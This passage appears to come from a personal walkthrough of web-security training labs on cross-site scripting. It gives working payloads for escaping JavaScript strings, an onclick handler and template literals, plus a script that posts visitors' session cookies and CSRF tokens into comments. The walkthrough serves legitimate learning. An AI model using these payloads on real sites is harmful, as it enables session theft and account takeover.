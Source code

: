 #### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
- This one is pretty simillar:

```html
coffee\'; alert(document.domain)//
```

#### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
- Ok so we know that XSS is stored so first thing - find where it is stored (and in the lab we have a hint - it is somewhere in comment section), so pushing a couple of payloads gives us an understanding how to escape from a string/link:

```html
http://foo.com/?&#x27-alert(document.domain)-&#x27
```

- Alternatively:

```html
http://foo.com/?&apos;-alert(document.domain)-&apos;
```

#### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
- Sometimes you cannot escape something, but you are able to run code from the inside:

```html
${alert(document.domain)}
```

#### Lab: Exploiting cross-site scripting to steal cookies
- Since I have no Burp premium with avalable Collaborator - the solution is to post a comment which will force others to post their comments:

```html
<script>
window.addEventListener('DOMContentLoaded', function (){

var data = new FormData();

data.append('csrf', document.getElementsByName('csrf')[0].value);
data.append('postId', 3);
data.append('comment', document.cookie);
data.append('email', 'test@test.tst');
data.append('name', 'tester');
data.append('website', 'http://foo.com');

fetch('/post/comment', {
method: 'POST',
mode: 'no-cors',
body: data
});
});
</script>
```

